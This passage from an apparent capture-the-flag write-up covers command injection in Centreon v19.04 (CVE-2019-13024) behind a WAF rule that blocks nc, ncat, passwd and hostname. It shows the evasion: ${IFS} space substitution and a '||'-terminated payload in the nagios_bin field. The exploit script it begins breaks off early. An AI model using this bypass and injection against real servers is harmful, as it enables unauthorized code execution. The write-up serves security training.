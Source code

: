 ```
SecRule REQUEST_BODY "\bhostname\b" "id:00006,deny,msg:'blocked'"

```

It’s blocking `nc`, `ncat`, `passwd`, `#`, `+`, and `hostname`. I’ll notice all of these rules are looking at the REQUEST\_BODY.

### Script Upgrades

Working the box, I needed to make the script able to take commands that I gave it at the command line so that I could bypass the WAF and get a shell. But I did take it a bit further:
1. Integrate substitution for space so that I don’t have to type `${IFS}`.
2. Get output of commands.
3. Add error handling for WAF failures.

First, I added a simple upgrade to the payload to get around the WAF, at least for the space, by changing the payload to:

```

command = sys.argv[4].replace(' ', '${IFS}')

```

Next, I noticed in the blog post that he was able to read the output of his commands. I also noticed that the injection is into a PHP `shell_exec`, where my input string is at the front of the input. In the blog post, he ends his payload with a `#`, which is a comment. But it’s also a character that triggers the WAF. Another thing I could add to the end of my string is `||`, or logical or. This means that assuming my command succeeds, it won’t run what comes next. I added that into the payload:

```

"nagios_bin": f'{command}||'

```

Now I can see the output when I send the second POST. I’ll add some regex to extract the results, as well as some error handling.

The resulting code is:

```

#!/usr/bin/python3

'''
# Exploit Title: Centreon v19.04 authenticated Remote Code Execution
# Date: 28/06/2019
# Exploit Author: Askar (@mohammadaskar2):
# Modified By: 0xdf
# CVE : CVE-2019-13024
# Vendor Homepage: https://www.centreon.com/
# Version: v19.04
# Tested on: CentOS 7.6 / PHP 5.4.16
'''

import re
import requests
import socket
import sys
import warnings
from bs4 import BeautifulSoup

# turn off BeautifulSoup warnings
warnings.filterwarnings("ignore", category=UserWarning, module='bs4')

if len(sys.argv) != 5:
    print(len(sys.argv))
```